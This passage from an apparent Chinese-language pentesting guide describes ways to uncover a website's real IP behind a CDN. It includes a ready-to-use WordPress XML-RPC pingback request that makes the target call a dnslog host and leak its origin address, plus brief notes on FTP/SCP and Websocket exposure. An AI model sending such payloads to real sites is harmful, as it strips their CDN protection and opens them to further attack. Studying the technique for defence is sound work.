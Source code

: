 ##### 十、通过 XML-RPC PINGBACK 通信

- XML-RPC 是支持 WordPress 与其他系统之间通信的规范，它通过使用 HTTP 作为传输机制和  XML 作为编码机制来标准化这些通信过程。
- 在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开启。
- XML-RPC 支持 trackback 和 pingback。
- 虽然 WordPress 启用了 REST API 来代替 XML-RPC ，不过 XML-RPX 不会过时的，放心大胆的使用就好，虽然 XML-RPC 这个技术很老了，但依然可以通杀很多网站。

配置好 dnslog，POST 请求 XML-RPC：

```xml
POST /xmlrpc.php HTTP/1.1
Host: domain.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 323

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://2vbis4.dnslog.cn</string></value>
</param>
<param>
<value><string>https://domain.com/</string></value>
</param>
</params>
</methodCall>
```

响应：

![Alt text](./static/1609936601531.png)

刷新一下 dnslog ，获得了真实服务器 IP：

![Alt text](./static/1609937441252.png)

##### 十一、通过 FTP/SCP 协议

- 在很多情况下，网站需要将数据流从外部传输到内部服务器上，最安全的做法肯定是在用户和服务器之间建立虚拟专用网络（V*P+N 防和谐）。
- 但实际上，仍然有大量可从外部访问的 FTP / SCP 服务，从而容易被抓住机会找到源 IP 地址。

##### 十二、利用 Websocket 协议

- CloudFlare 等 CDN 服务商其实早就支持对 Websocket 的保护了，但太多的站长，不管大站小站，他们很多人都不知道，或者没有针对 Websocket 进行部署。
- 另一种原因是因为业务上的需求，毕竟 Websocket  要求客户端和服务器之间保持长久的连接，所以很有可能没有进行 CDN  部署。
